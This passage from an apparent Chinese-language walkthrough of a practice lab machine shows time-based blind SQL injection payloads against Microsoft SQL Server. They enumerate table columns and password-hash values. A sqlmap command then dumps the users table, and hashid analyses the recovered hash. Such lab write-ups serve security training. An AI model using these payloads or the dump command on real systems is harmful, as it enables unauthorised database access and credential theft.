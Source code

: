 ```sql

# 枚举列名
admin&#39;if((select&#43;count(name)&#43;from&#43;syscolumns&#43;where&#43;id=OBJECT_ID(&#39;users&#39;)))&gt;=4&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--  # 有3列
admin&#39;if((select&#43;top&#43;1&#43;len(name)&#43;from&#43;syscolumns&#43;where&#43;id=OBJECT_ID(&#39;users&#39;)))&gt;=13&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;-- #第一列列名长度为13
admin&#39;if((select&#43;top&#43;1&#43;substring(name,1,1)&#43;from&#43;syscolumns&#43;where&#43;id=OBJECT_ID(&#39;users&#39;)))&gt;=&#39;p&#39;&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
# 得到列名为password_hash,user_id,username

# 枚举字段值
admin&#39;if((select&#43;len(password_hash)&#43;from&#43;butch..users))&gt;=64&#43;waitfor&#43;delay&#43;&#39;0:0:1&#39;;--  # password列长度为64
admin&#39;if((select&#43;substring(password_hash,1,3)&#43;from&#43;butch..users))&gt;=&#39;a&#43;waitfor&#43;delay&#43;&#39;0:0:1&#39;;--
```

因为长度太长了，就不手工跑了，用sqlmap跑下最后的结果

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ sqlmap -r sqli.txt --level=3 --risk=3 -D butch -T users -C &#39;password_hash&#39;,&#39;username&#39; --technique=T --dbms=mssql --dump --batch
……
[18:08:47] [WARNING] no clear password(s) found                                                         
Database: butch
Table: users
[1 entry]
&#43;------------------------------------------------------------------&#43;----------&#43;
| password_hash                                                    | username |
&#43;------------------------------------------------------------------&#43;----------&#43;
| e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267 | butch    |
&#43;------------------------------------------------------------------&#43;----------&#43;
……
```

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ hashid e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267     
Analyzing &#39;e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267&#39;
[&#43;] Snefru-256 
[&#43;] SHA-256 
[&#43;] RIPEMD-256 
[&#43;] Haval-256 
[&#43;] GOST R 34.11-94 
[&#43;] GOST CryptoPro S-Box 
[&#43;] SHA3-256 
[&#43;] Skein-256 
[&#43;] Skein-512(256)
```

尝试破解Hash失败。
